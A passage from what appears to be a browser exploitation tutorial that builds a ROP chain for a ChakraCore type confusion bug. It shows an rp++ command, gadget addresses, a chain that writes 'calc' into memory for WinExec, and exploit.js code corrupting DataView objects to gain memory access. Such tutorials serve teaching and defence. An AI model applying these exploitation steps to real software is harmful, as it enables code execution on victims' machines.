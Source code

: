 Let's use the following `rp++` command: `rp-win-x64.exe -f C:\PATH\TO\ChakraCore\Build\VcBuild\x64_debug\ChakraCore.dll -r > C:\PATH\WHERE\YOU\WANT\TO\OUTPUT\gadgets.txt`:

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion93.png" alt="">

ChakraCore is a very large code base, so `gadgets.txt` will be decently big. This is also why the `rp++` command takes a while to parse `chakracore.dll`. Taking a look at `gadgets.txt`, we can see our ROP gadgets.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion94.png" alt="">

Moving on, let's take a look at the prototype of `WinExec`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion95.png" alt="">

As we can see above, `WinExec` takes two parameters. Because of the `__fastcall` calling convention, the first parameter needs to be stored in RCX and the second parameter needs to be in RDX.

Our first parameter, `lpCmdLine`, needs to be a string which contains the contents of `calc`. At a deeper level, we need to find a memory address and use an arbitrary write primitive to store the contents there. In other works, `lpCmdLine` needs to be a _pointer_ to the string `calc`.

Looking at our `gadgets.txt` file, let's look for some ROP gadgets to help us achieve this. Within `gadgets.txt`, we find three useful ROP gadgets.

```
0x18003e876: pop rax ; ret ; \x26\x58\xc3 (1 found)
0x18003e6c6: pop rcx ; ret ; \x26\x59\xc3 (1 found)
0x1800d7ff7: mov qword [rcx], rax ; ret ; \x48\x89\x01\xc3 (1 found)
```

Here is how this will look in terms of our ROP chain:

```
pop rax ; ret
<0x636c6163> (calc in hex is placed into RAX)

pop rcx ; ret
<pointer to store calc> (pointer is placed into RCX)

mov qword [rcx], rax ; ret (fill pointer with calc)
```

Where we have currently overwritten our return address with a value of `0x4141414141414141`, we will place our first ROP gadget of `pop rax ; ret` there to begin our ROP chain. We will then write the rest of our gadgets down the rest of the stack, where our ROP payload will be executed.

Our previous three ROP gagdets will place the string `calc` into RAX, the pointer where we want to write this string into RCX, and then a gadget used to actually update the contents of this pointer with the string.

Let's update our `exploit.js` script with these ROP gadgets (note that `rp++` can't compensate for ASLR, and essentially computes the offset from the base of `chakracore.dll`. For example, the `pop rax` gadget is shown to be at `0x18003e876`. What this means is that we can actually find this gadget at `chakracore_base + 0x3e876`.)

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
```